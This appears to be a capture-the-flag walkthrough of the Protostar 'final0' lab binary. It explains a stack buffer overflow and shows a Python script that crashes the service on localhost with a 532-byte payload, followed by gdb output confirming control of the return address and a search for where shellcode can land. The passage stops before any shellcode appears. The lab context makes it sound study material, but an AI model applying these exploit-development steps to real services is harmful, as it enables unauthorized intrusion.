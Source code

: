 ```
 background_process(NAME, UID, GID); 

 /* Wait for socket activity and return */
 fd = serve_forever(PORT);

 /* Set the client socket to STDIN, STDOUT, and STDERR */
 set_io(fd);

 username = get_username();

 printf("No such user %s\n", username);
}
```

This is a somewhat standard buffer overflow.  The buffer is 512 bytes long, but safe checks aren't done to make sure it doesn't go past that size.  I tried using the [Metasploit Framework's](http://www.metasploit.com) pattern_create.rb, however, due to the fact that the buffer is having a "toupper()" done on it, it won't find it.  I had to do it manually, by just splitting an array into "a" and "b" segments, and adjusting the sizes each time.  I found that the offset was at 532 bytes with the following code:

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

s.send("a"*532 + "b"*8)
```

When I ran it, I was able to verify that I was correct.

```
root@protostar:/home/user# ./532.py 
root@protostar:/home/user# gdb --quiet --core=/tmp/core.11.final0.14765 
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0x62626262 in ?? ()
```

Next, I had to inject shellcode into the buffer, and find the address to return to.

```
(gdb) x/10s $esp-550
0xbffffaaa:  ""
0xbffffaab:  ""
0xbffffaac:  "\211\005"
0xbffffaaf:  ""
0xbffffab0:  "\224\310\351\267\020ii\r", 'A' <repeats 192 times>...
0xbffffb78:  'A' <repeats 200 times>...
0xbffffc40:  'A' <repeats 120 times>
0xbffffcb9:  ""
0xbffffcba:  ""
0xbffffcbb:  ""
(gdb) x/10s 0xbffffab0+8
0xbffffab8:  'A' <repeats 200 times>...
0xbffffb80:  'A' <repeats 200 times>...
0xbffffc48:  'A' <repeats 112 times>
0xbffffcb9:  ""
0xbffffcba:  ""
0xbffffcbb:  ""
0xbffffcbc:  ""
0xbffffcbd:  "\002"
0xbffffcbf:  ""
```